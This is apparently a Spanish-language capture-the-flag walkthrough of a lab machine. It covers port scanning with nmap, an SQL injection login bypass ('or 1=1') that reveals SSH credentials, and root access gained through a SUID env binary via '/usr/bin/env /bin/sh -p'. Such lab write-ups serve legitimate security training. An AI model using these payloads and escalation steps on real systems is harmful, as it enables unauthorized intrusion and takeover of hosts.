<p align="center">
    
</p>

Mi IP -> 172.17.0.1
IP Objetivo -> 172.17.0.2


## Puertos

| Puertos | Servicio | Versión                                                      |
| ------- | -------- | ------------------------------------------------------------ |
| 22/tcp  | ssh      | OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp  | http     | Apache httpd 2.4.52 ((Ubuntu))                               |


## Credenciales


| USER  | PASSWORD         |
| ----- | ---------------- |
| dylan | KJSDFG789FGSDF78 |


<center><h1><font color="greenLima">Enumeración</font></h1></center>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```
<p align="center">
    
</p>


### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```
<p align="center">
    
</p>


-  Hago un escaneo mas exhaustivo para identificar versión y hacer un reconocimiento de los script mas habitules
```
nmap -p22,80 -sV -sC --min-rate 5000 -n -Pn 172.17.0.2
```
<p align="center">
    
</p>


<h3><center> HTTP puerto 80</center></h3>
 
Voy al navegador y pongo la IP en la dirección URL
<p align="center">
    
</p>


Compruebo si es vulnerable a un `BYPASS` de usuario y contraseña. En *User* y *Password*, introdujo:
```
' or '1'='1
```
<p align="center">
    
</p>
>infoℹ
>		*Obtengo un usuario y una contraseña `Dylan:KJSDFG789FGSDF78`*


Como también estaba abierto el servicio SSH, intento con estas credenciales acceder a la máquina victima


<center><h1><font color="greenLima">Explotación</font></h1></center>

Teniendo unas posibles credenciales válidas y teniendo el servicio SSH abierto, pruebo las credenciales para acceder a la máquina objetivo.
```
ssh dylan@172.17.0.2
```
<p align="center">
    
</p>
>ℹ
>		*Obtengo acceso a la máquina*


<center><h1><font color="greenLima">Post - Explotación</font></h1></center>

Identifico al usuario y veo que privilegios tiene
```
whoami
id
```
<p align="center">
    
</p>


Como no tiene privilegios elevados, tengo que elevar privilegios. Primero pruebo con `sudo -l`
<p align="center">
    
</p>


No hay nada, paso al siguiente que son los `SUID`
```
find / -perm -4000 2>/dev/null
```
<p align="center">
    
</p>
>ℹ
>		*Veo que hay un binario SUID, llamado env*


Voy a la página `GTFOBins` y busco le binario `env`
<p align="center">
    
</p>
>ℹ
>	*Como busqué el binario por SUID, utilizo la parte SUID de la web GTFOBins*


En la consola introduzco el comando:
```
/usr/bin/env /bin/sh -p     # especificando la ruta absoluta
```
<p align="center">
    
</p>
>ℹ
>		*Obtenemos acceso al usuario root*


